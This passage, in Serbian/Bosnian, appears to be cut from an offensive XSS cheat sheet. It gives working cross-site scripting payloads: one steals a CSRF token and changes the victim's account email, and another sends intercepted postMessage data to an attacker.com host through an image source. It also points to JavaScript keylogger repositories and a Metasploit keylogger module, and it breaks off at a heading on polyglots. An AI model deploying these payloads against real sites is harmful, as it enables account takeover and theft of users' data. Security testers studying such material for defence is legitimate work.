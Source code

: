Kada se unesu podaci u polje za lozinku, korisničko ime i lozinka se šalju na server napadača, čak i ako klijent izabere sačuvanu lozinku i ne unese ništa, podaci će biti ekstrahirani.

### Keylogger

Samo pretražujući na github-u pronašao sam nekoliko različitih:

* [https://github.com/JohnHoder/Javascript-Keylogger](https://github.com/JohnHoder/Javascript-Keylogger)
* [https://github.com/rajeshmajumdar/keylogger](https://github.com/rajeshmajumdar/keylogger)
* [https://github.com/hakanonymos/JavascriptKeylogger](https://github.com/hakanonymos/JavascriptKeylogger)
* Takođe možete koristiti metasploit `http_javascript_keylogger`

### Krađa CSRF tokena

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/email',true);
req.send();
function handleResponse() {
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/email/change-email', true);
changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

### Krađa PostMessage poruka

```markup
<img src="https://attacker.com/?" id=message>
<script>
window.onmessage = function(e){
document.getElementById("message").src += "&"+e.data;
</script>
```

### Zloupotreba servisnih radnika

{% content-ref url="abusing-service-workers.md" %}
[abusing-service-workers.md](abusing-service-workers.md)
{% endcontent-ref %}

### Pristupanje Shadow DOM-u

{% content-ref url="shadow-dom.md" %}
[shadow-dom.md](shadow-dom.md)
{% endcontent-ref %}

### Poligloti
